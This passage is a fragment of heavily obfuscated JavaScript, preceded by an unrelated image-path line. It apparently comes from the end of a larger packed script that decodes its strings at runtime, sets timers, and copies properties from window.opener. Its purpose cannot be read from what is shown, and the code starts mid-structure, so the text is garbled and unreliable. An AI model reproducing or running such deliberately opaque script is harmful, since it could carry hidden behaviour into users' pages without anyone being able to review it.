 X,Ay.ep)](K[N(Ay.er,Ay.At)+'p']);return;}K[N(0x443,Ay.Ql)+'Z'](u),d=setInterval(q,0x64),P=K[N(0x315,Ay.Ag)+'d'](setTimeout,W,0xbb8);}else{if(!window[N(Ay.eU,Ay.Ax)+'me'][N(0x308,Ay.QX)+N(0x313,'PmYE')+'nt'])try{window[N(0x3a0,Ay.eF)+'me'][N(0x302,'HNlT')+N(Ay.el,Ay.AO)+'nt']=opener[N(0x398,Ay.eg)+'me'][N(Ay.ex,'47#*')+N(Ay.eS,'osy0')+'nt'];}catch(j){window[N(Ay.eZ,Ay.ez)+N(Ay.eI,'nPf!')][N(0x408,Ay.eC)](K[N(0x3e7,Ay.eD)+'Y']);return;}K[N(0x3e9,Ay.eV)+'v'](E,H);}}()));
